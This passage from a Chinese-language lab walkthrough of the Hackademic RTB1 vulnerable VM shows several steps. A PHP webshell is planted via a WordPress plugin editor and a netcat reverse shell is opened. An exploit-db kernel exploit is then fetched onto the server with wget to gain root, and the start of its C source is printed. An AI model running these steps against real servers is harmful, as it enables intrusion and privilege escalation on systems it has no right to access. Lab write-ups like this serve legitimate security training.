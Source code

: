 webshell到服务器，以方便运行一些Linux命令。在插件页面寻找任何可以编辑的插件。选择Textile这款插件，编辑插入`php webshell`，点击更新文件，然后访问phpwebshell。<br />![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1622910314030-b97f02b5-2329-454d-bcd4-2db1a44866fd.jpeg#averageHue=%23eae9e6&height=236&id=uca8fba6a&originHeight=236&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910314553-c9d5f993-ae8a-419b-a6a4-04a33f1d1cfa.webp#averageHue=%23ecf0ef&height=268&id=u68ab884e&originHeight=268&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />Phpwebshell被解析了，可以控制网站的文件，但是只希望获得网站服务器的root权限，来入侵服务器上其它的网站。<br />用NC来反弹一个shell，首先在电脑上监听5555端口。<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910314626-e921152a-f52c-4dde-907f-2c54fd119494.webp#averageHue=%233e433f&height=37&id=ub83fded7&originHeight=37&originWidth=376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=376)<br />然后在Php webshell上反向连接电脑，输入你的IP和端口5555。<br />![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1622910314536-19dc73b2-1c69-439c-849f-143b60e9d6cc.jpeg#averageHue=%23e8e6e5&height=293&id=u7301306a&originHeight=293&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />点击连接可以看到<br />![](https://cdn.nlark.com/yuque/0/2021/png/396745/1622910314459-ba1f6130-8fbe-4ac2-b475-7160aed39387.png#averageHue=%23a07b5c&height=51&id=u9aac303e&originHeight=51&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />接下来尝试执行一些命令：
```bash
id
uid=48(apache) gid=489(apache) groups=489(apache) （用来显示用户的id和组）
pwd
/var/www/html/Hackademic_RTB1/wp-content/plugins （显示服务器上当前的路径）
uname -a
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 721:41:45 EST 2009 i686 i686 i386 GNU/Linux
```
（显示内核版本信息）<br />![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1622910314707-85e179a1-7d48-4531-8017-a99a92cc5001.jpeg#averageHue=%235a5b56&height=153&id=u17b8ad06&originHeight=153&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />现在知道，服务器的内核版本是2.6.31.5-127.fc12.1686，在[exploit-db.com](exploit-db.com)中搜索此版本的相关漏洞。<br />在服务器上测试了很多exp之后，用以下的exp来提升权限。<br />[http://www.exploit-db.com/exploits/15285](http://www.exploit-db.com/exploits/15285)<br />在nc shell上执行以下命令:
```bash
wget http://www.exploit-db.com/exploits/15285 -o roro.c
```
(下载exp到服务器并重命名为roro.c)<br />注：很多linux内核的exp都是C语言开发的，因此保存为.c扩展名。<br />exp roro.c代码如下：
```c
#include
#include
#include
#include
#include
#include
#include
#include
#include
#include
#include
#define RECVPORT 5555
#define SENDPORT 6666
int prep_sock(int port)
{
int s, ret;
struct sockaddr_in addr;
s = socket(PF_RDS, SOCK_SEQPACKET, 0);
if(s < 0)
{
printf(“[*] Could not open socket.”);
exit(-1);
}
memset(&addr, 0, sizeof(addr));
```
通过以上代码可以发现该exp是C语言开发的，需要将它编译成elf格式的，命令如下:
```bash
```
